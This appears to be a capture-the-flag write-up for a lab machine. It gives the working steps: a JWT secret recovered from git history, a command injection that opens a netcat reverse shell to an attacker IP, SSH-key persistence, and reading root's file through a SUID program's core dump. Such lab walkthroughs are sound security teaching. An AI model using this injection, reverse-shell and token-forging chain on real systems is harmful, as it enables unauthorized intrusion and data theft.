 # SECRET
### User Flag

```bash
[kali@kali ~]$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.120
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63
```

We can try to follow the tutorial in the webpage to create an account, for example, using burp.

```
POST /api/user/register HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"name": "Dasor_",
	"email": "testmail@mail.com",
	"password": "testtest"
}
```

Now, we log in:

```
POST /api/user/login HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"email": "testmail@mail.com",
	"password": "testtest"
}
```

And we get our JWT token, but it is pretty useless since when we connect to `/api/priv` we just get a message telling us that we are normal users.

Now, we can download the source code of the page, which is in the main page (in `/download/files.zip`). If we take a look at `/routes/private.js`, we see that to be admin, the user's name must be `theadmin`. So we need to fake our JWT token, but first we need the secret. We find that there is a git repository of the source code of the webpage. If we take a look at the commits:

```bash
[kali@kali ~]$ git log --oneline     
e297a27 (HEAD -> master) now we can view logs from server 😃
67d8da7 removed .env for security reasons
de0a46b added /downloads
4e55472 removed swap
3a367e7 added downloads
55fe756 first commit
```

and we take a look at the commit `67d8da7`, we'll find the secret. Now, we can create a JWT token with name 'theadmin' using, for example, `jwt.io`. With this token, the page says that we are admin, but we cannot do anything in the webpage. However, in the file `private.js`, we find:

```javascript
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
    if(err){
        res.status(500).send(err);
        return
    }
    ...
```

We can exploit the `exec` function and create a reverse shell using netcat (note that `nc -e` doesn't work on this machine):

```bash
[kali@kali ~]$ nc -lnvvvp 4444
listening on [any] 4444 ...
```
Now we exploit the `exec` function using burp with this request:

```
GET /api/logs?file=;mknod%20/tmp/backpipe%20p;%20/usr/bin/bash%200</tmp/backpipe%20|%20nc%2010.10.14.196%204444%201>%20/tmp/backpipe HTTP/1.1
...
auth-token: !!! your admin token !!!
```

with which we get user access:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ cat /home/dasith/user.txt
```

### Root flag

__TIP:__ _We can add our own ssh key to make the work flow easier_

```bash
dasith@secret:~/local-web$ cd /home/dasith/.ssh
dasith@secret:~/local-web$ echo 'yourkey' >> authorized_keys
```

In `/opt` we find a program called `count` that has the SUID bit set and is owned by root. Then, it can give us information about any file or directory. If we look at the code in code.c, we find:

```c
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
```

which means that, the program reads the file, then drops the privileges to the normal user and, if the program crashes, it will store a crash report in some location (readable by the normal user). The default route is `/var/crash`. Because the crash will contain the memory of the process, we can exploit this program to do privilege scalation:

```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps -aux | grep count
root         827  0.0  0.1 235668  7404 ?        Ssl  20:16   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1688  0.0  0.0   2488   592 pts/3    T    20:20   0:00 ./count
dasith      1691  0.0  0.0   6432   668 pts/3    S+   20:21   0:00 grep --color=auto count

dasith@secret:/opt$ kill -11 1688
dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
```

Now that we have created a crash report, we need to make it readable by using:

```bash
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
```

Finally, we can read the process memory in the `CoreDump` file in `/tmp/crash-report`, which contains the file read by the process.
